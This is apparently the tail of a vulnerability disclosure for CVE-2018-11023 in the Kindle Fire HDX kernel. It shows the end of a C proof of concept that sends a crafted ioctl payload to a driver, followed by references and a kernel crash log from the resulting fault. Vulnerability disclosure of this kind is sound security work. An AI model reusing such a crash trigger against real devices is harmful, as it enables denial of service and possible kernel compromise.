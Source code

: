 ```
        if(ioctl(fd, command, &payload) < 0) {
            printf("Allocation of structs failed, %d\n", errno);
            system("echo 2 > /data/local/tmp/log");
            return -1;
        }
        close(fd);
        return 0;
}
```
### References

MITRE Orgnazation: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11023

Kindle Kernel Sources:https://www.amazon.com/gp/help/customer/display.html?nodeId=200203720 

Kindle kernel (version 4.5.5.3 for kindle fire hdx 3rd): 

### Crash Log

```
[   79.825592] init: untracked pid 3232 exited
[   79.830841] init: untracked pid 3234 exited
[   95.970855] Alignment trap: not handling instruction e1953f9f at [<c06a4d84>]
[   95.978912] Unhandled fault: alignment exception (0x001) at 0x1a03e6f3
[   95.986053] Internal error: : 1 [#1] PREEMPT SMP ARM
[   95.991638] Modules linked in: omaplfb(O) pvrsrvkm(O) pvr_logger(O)
[   95.999145] CPU: 0    Tainted: G           O  (3.4.83-gd2afc0bae69 #1)
[   96.006408] PC is at __raw_spin_lock_irqsave+0x38/0xb0
[   96.012115] LR is at _raw_spin_lock_irqsave+0x10/0x14
[   96.017791] pc : [<c06a4d88>]    lr : [<c06a4e10>]    psr: 20000093
[   96.017822] sp : d02bfdd8  ip : d02bfdf8  fp : d02bfdf4
[   96.030578] r10: 00000000  r9 : dd3eeca8  r8 : 00000001
[   96.036376] r7 : 1a03e6ef  r6 : 00000001  r5 : 1a03e6f3  r4 : d02be000
[   96.043701] r3 : 00000001  r2 : 00000001  r1 : 00000082  r0 : 20000013
[   96.050933] Flags: nzCv  IRQs off  FIQs on  Mode SVC_32  ISA ARM  Segment user
[   96.058990] Control: 10c5387d  Table: 96cb804a  DAC: 00000015
[   96.065460] 
[   96.065460] PC: 0xc06a4d08:
[   96.070404] 4d08  1a000003 eaffffe6 e5903000 e3530000 0affffe3 e5903004 e3530000 1afffff9
[   96.080810] 4d28  eaffffdf e50b0018 ebfffbab e51b0018 eaffffed e1a0c00d e92dd800 e24cb004
[   96.091217] 4d48  ebffffcf e89da800 e1a0c00d e92dd878 e24cb004 e1a0300d e3c34d7f e3c4403f
[   96.101776] 4d68  e1a05000 e3a06001 e5943004 e2833001 e5843004 e10f0000 f10c0080 e1953f9f
[   96.112335] 4d88  e3330000 01853f96 e3530000 0a000014 e121f000 e5943004 e2433001 e5843004
[   96.122894] 4da8  e5943000 e3130002 1a000010 e5953004 e3530000 e5953000 05856004 e3530000
[   96.133361] 4dc8  1a000003 eaffffe7 e5953000 e3530000 0affffe4 e5953004 e3530000 1afffff9
[   96.143920] 4de8  eaffffe0 f57ff05f e5853004 e89da878 ebfffb79 eaffffec e1a0c00d e92dd800
[   96.154479] 
[   96.154479] LR: 0xc06a4d90:
[   96.159393] 4d90  e3530000 0a000014 e121f000 e5943004 e2433001 e5843004 e5943000 e3130002
[   96.170013] 4db0  1a000010 e5953004 e3530000 e5953000 05856004 e3530000 1a000003 eaffffe7
[   96.180603] 4dd0  e5953000 e3530000 0affffe4 e5953004 e3530000 1afffff9 eaffffe0 f57ff05f
[   96.191070] 4df0  e5853004 e89da878 ebfffb79 eaffffec e1a0c00d e92dd800 e24cb004 ebffffcf
[   96.201690] 4e10  e89da800 e1a0c00d e92dd800 e24cb004 ebfffff6 e89da800 e1a0c00d e92dd800
[   96.212341] 4e30  e24cb004 ebfffff1 e89da800 e1a0c00d e92dd818 e24cb004 ebffffc0 e1a04000
[   96.222808] 4e50  ebe6a978 e121f004 e89da818 e1a0c00d e92dd800 e24cb004 ebfffff3 e89da800
[   96.233612] 4e70  e1a0c00d e92dd830 e24cb004 e24dd008 e1a0300d e3c34d7f e3c4403f e3a05001
[   96.244262] 
[   96.244262] SP: 0xd02bfd58:
[   96.249145] fd58  00000000 0000001d 00000004 d4736f80 d4737394 c06a4d84 20000093 ffffffff
[   96.259948] fd78  d02bfdc4 00000001 d02bfdf4 d02bfd90 c06a5318 c0008370 20000013 00000082
[   96.270660] fd98  00000001 00000001 d02be000 1a03e6f3 00000001 1a03e6ef 00000001 dd3eeca8
[   96.281311] fdb8  00000000 d02bfdf4 d02bfdf8 d02bfdd8 c06a4e10 c06a4d88 20000093 ffffffff
[   96.292053] fdd8  0000020a 00000082 1a03e6f3 d02be000 d02bfe04 d02bfdf8 c06a4e10 c06a4d5c
[   96.302825] fdf8  d02bfe14 d02bfe08 c06a4e24 c06a4e0c d02bfe5c d02bfe18 c06a3008 c06a4e20
```